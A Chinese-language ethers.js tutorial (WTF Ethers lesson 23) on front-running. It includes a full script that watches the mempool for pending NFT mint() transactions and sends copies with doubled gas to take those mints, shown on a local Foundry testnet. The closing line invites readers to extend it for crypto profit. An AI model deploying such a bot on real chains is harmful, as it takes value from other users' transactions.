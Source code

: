```yaml
---
title: 23. 抢先交易脚本
tags:
  - ethers
  - javascript
  - mev
  - mempool
  - frontrun
  - nft
  - frontend
  - web
---
```


# Ethers极简入门: 23. 抢先交易脚本

我最近在重新学`ethers.js`，巩固一下细节，也写一个`WTF Ethers极简入门`，供小白们使用。

推特：[@0xAA_Science](https://twitter.com/0xAA_Science)｜[@WTFAcademy_](https://twitter.com/WTFAcademy_)

WTF Academy 社群：[Discord](https://discord.gg/5akcruXrsk)｜[微信群](https://docs.google.com/forms/d/e/1FAIpQLSe4KGT8Sh6sJ7hedQRuIYirOoZK_85miz3dw7vA1-YjodgJ-A/viewform?usp=sf_link)｜[官网 wtf.academy](https://wtf.academy)

所有代码和教程开源在 github: [github.com/WTFAcademy/WTFEthers](https://github.com/WTFAcademy/WTF-Ethers)

---

这一讲，我们将介绍抢先交易（Front-running，抢跑）的脚本。据统计，以太坊上的套利者通过三明治攻击（sandwich attack）[共获利12亿美元](https://dune.com/chorus_one/ethereum-mev-data)。在学习之前，请先阅读[WTF Solidity教程 合约安全S11: 抢先交易](https://github.com/AmazingAng/WTF-Solidity/blob/main/S11_Frontrun/readme.md)。

![](./img/23-1.png)

## Freemint NFT合约

我们要抢跑的目标合约是一个ERC721标准的NFT合约`Frontrun.sol`，它拥有一个`mint()`函数进行免费铸造。

```solidity
// SPDX-License-Identifier: MIT
// By 0xAA
pragma solidity ^0.8.4;
import "@openzeppelin/contracts/token/ERC721/ERC721.sol";

// 我们尝试frontrun一笔Free mint交易
contract FreeMint is ERC721 {
    uint256 public totalSupply;

    // 构造函数，初始化NFT合集的名称、代号
    constructor() ERC721("Free Mint NFT", "FreeMint"){}

    // 铸造函数
    function mint() external {
        totalSupply++;
        _mint(msg.sender, totalSupply); // mint
    }
}
```

为了简化测试环境，我们将上述合约部署在foundry本地测试网，然后监听在`mempool`中的未决交易，筛选出符合标准的交易进行抢跑。

如果你不了解 `foundry`，可以阅读WTF Solidity中的[Foundry教程](https://github.com/AmazingAng/WTF-Solidity/blob/main/Topics/Tools/TOOL07_Foundry/readme.md)。安装好 foundry 后，在命令行输入以下命令就可以启动本地测试网:

```shell
anvil
```

## 抢跑脚本

下面，我们详解一下抢跑脚本`frontrun.js`，这个脚本会监听链上的`mint()`交易，并发送一个gas更高的相同交易，进行抢跑。

1. 创建连接到foundry本地测试网的`provider`对象，用于监听和发送交易。foundry本地测试网默认url：`"http://127.0.0.1:8545"`。

    ```js
    //1.连接到foundry本地网络

    import { ethers } from "ethers";
    const provider = new ethers.providers.JsonRpcProvider('<http://127.0.0.1:8545>')
    let network = provider.getNetwork()
    network.then(res => console.log(`[${(new Date).toLocaleTimeString()}]链接到网络${res.chainId}`))
    ```
2. 创建合约实例，用于查看mint结果，确认是否抢跑成功。

    ```js
    //2.构建contract实例
    const contractABI = [
        "function mint() public",
        "function ownerOf(uint256) public view returns (address) ",
        "function totalSupply() view returns (uint256)"
    ]

    const contractAddress = '0xC76A71C4492c11bbaDC841342C4Cb470b5d12193'//合约地址
    const contractFM = new ethers.Contract(contractAddress, contractABI, provider)
    ```
3. 创建一个包含我们感兴趣的`mint()`函数的`interface`对象，用于在监听过程中使用。如果你不了解它，可以阅读[WTF Ethers极简教程第20讲：解码交易](https://github.com/WTFAcademy/WTFEthers/blob/main/20_DecodeTx/readme.md)。

    ```js
    //3.创建Interface对象，用于检索mint函数。
    //V6版本 const iface = new ethers.Interface(contractABI)
    const iface = new ethers.utils.Interface(contractABI)
    function getSignature(fn) {
    // V6版本 return iface.getFunction("mint").selector
        return iface.getSighash(fn)
    }
    ```

4. 创建测试钱包，用于发送抢跑交易，私钥是foundry测试网提供的，里面有10000 ETH测试币。

    ```js
    //4. 创建测试钱包，用于发送抢跑交易，私钥是foundry测试网提供
    const privateKey = '0xac0974bec39a17e36ba4a6b4d238ff944bacb478cbed5efcae784d7bf4f2ff80'
    const wallet = new ethers.Wallet(privateKey, provider)
    ```

5. 我们先看一下正常的mint结果是怎样的。我们利用`provider.on`方法监听mempool中的未决交易，当交易出现时，我们会利用交易哈希`txHash`来读取交易详情`tx`，并筛选出调用了`mint()`函数的交易，查看交易结果，获取mint的nft编码及对应的owner，比对交易发起地址与owner是否一致。确认，mint按预期执行。

    ```js
    //5. 构建正常mint函数，检验mint结果，显示正常。
    const normaltx = async () => {
    provider.on('pending', async (txHash) => {
        provider.getTransaction(txHash).then(
            async (tx) => {
                if (tx.data.indexOf(getSignature("mint")) !== -1) {
                    console.log(`[${(new Date).toLocaleTimeString()}]监听到交易:${txHash}`)
                    console.log(`铸造发起的地址是:${tx.from}`)//打印交易发起地址
                    await tx.wait()
                    const tokenId = await contractFM.totalSupply()
                    console.log(`mint的NFT编号:${tokenId}`)
                    console.log(`编号${tokenId}NFT的持有者是${await contractFM.ownerOf(tokenId)}`)//打印nft持有者地址
                    console.log(`铸造发起的地址是不是对应NFT的持有者:${tx.from === await contractFM.ownerOf(tokenId)}`)//比较二者是否一致
                }
            }
        )
    })
    }
    ```

    ![](./img/23-2.png)

6. 进行抢跑mint。我们依旧利用`provider.on`方法监听mempool中的未决交易，当有调用了mint()函数的交易出现且发送方不是自己钱包地址的交易（如果不筛选，会自己抢跑自己的交易，陷入死循环）时，构建抢跑交易，发送交易进行抢跑。等待交易结束后，查看抢跑结果。预期将要被mint的nft并未被原交易发起地址mint，而是由抢跑地址mint。同时查看区块内数据，抢跑交易在原始交易前被打包进区块，抢跑成功！

    ```js
    const frontRun = async () => {
    provider.on('pending', async (txHash) => {
        const tx = await provider.getTransaction(txHash)
        if (tx.data.indexOf(getSignature("mint")) !== -1 && tx.from !== wallet.address) {
            console.log(`[${(new Date).toLocaleTimeString()}]监听到交易:${txHash}\n准备抢先交易`)
            const frontRunTx = {
                to: tx.to,
                value: tx.value,
    // V6版本 maxPriorityFeePerGas: tx.maxPriorityFeePerGas * 2n， 其他运算同理。参考https://docs.ethers.org/v6/migrating/#migrate-bigint
                maxPriorityFeePerGas: tx.maxPriorityFeePerGas.mul(2),
                maxFeePerGas: tx.maxFeePerGas.mul(2),
                gasLimit: tx.gasLimit.mul(2),
                data: tx.data
            }
            const aimTokenId = (await contractFM.totalSupply()).add(1)
            console.log(`即将被mint的NFT编号是:${aimTokenId}`)//打印应该被mint的nft编号
            const sentFR = await wallet.sendTransaction(frontRunTx)
            console.log(`正在frontrun交易`)
            const receipt = await sentFR.wait()
            console.log(`frontrun 交易成功,交易hash是:${receipt.transactionHash}`)
            console.log(`铸造发起的地址是:${tx.from}`)
            console.log(`编号${aimTokenId}NFT的持有者是${await contractFM.ownerOf(aimTokenId)}`)//刚刚mint的nft持有者并不是tx.from
            console.log(`编号${aimTokenId.add(1)}的NFT的持有者是:${await contractFM.ownerOf(aimTokenId.add(1))}`)//tx.from被wallet.address抢跑，mint了下一个nft
            console.log(`铸造发起的地址是不是对应NFT的持有者:${tx.from === await contractFM.ownerOf(aimTokenId)}`)//比对地址，tx.from被抢跑
            //检验区块内数据结果
            const block = await provider.getBlock(tx.blockNumber)
            console.log(`区块内交易数据明细:${block.transactions}`)//在区块内，后发交易排在先发交易前，抢跑成功。
        }
    })
    }
    ```

    ![](./img/23-3.png)

## 总结

这一讲，我们介绍了一个简单的抢先交易脚本。你可以在这个脚本的基础上加入你想要的功能，开启币圈科学家之路！
